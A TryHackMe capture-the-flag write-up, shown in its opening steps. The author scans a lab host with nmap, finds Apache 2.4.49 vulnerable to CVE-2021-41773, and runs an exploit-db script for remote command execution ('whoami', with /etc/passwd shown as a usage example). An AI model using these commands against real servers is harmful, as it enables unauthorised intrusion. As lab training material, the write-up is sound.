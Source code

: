 ```yaml
---
title: "Oh My Web"
author: "Divyanshu Sharma"
date: 2022-10-01
permalink: /tryhackme/ohmyweb
tags: tryhackme
---
```

# IP
10.10.251.106

## Enumeration
### Nmap 
- Found 2 ports running on the system

```console
❯ nmap -sC -sV 10.10.251.106 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-21 19:21 IST
Nmap scan report for 10.10.251.106
Host is up (0.16s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Consult - Business Consultancy Agency Template | Home
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.63 seconds
```

- Port `80/tcp` has `Apache/2.4.49`, which on googling found was vulnerable to [CVE:2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773).<br />

# Exploitation
## Apache 2.4.49 ([CVE:2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773))

- For exploiting the system I used a script from [exploitdb](https://www.exploit-db.com/exploits/50383).<br />
- On reversing the script, found that the system uses a file name with IP address of the target and command to execute as a parameter.
```console
❯ echo "10.10.251.106" > target.txt
❯ bash exploit.sh
Set [TAGET-LIST.TXT] [PATH] [COMMAND]
./PoC.sh targets.txt /etc/passwd
```
- On loading target IP to the file, executed the exploit with `whoami` command
```console
❯ bash exploit.sh target.txt /bin/sh "whoami"
10.10.251.106
daemon
```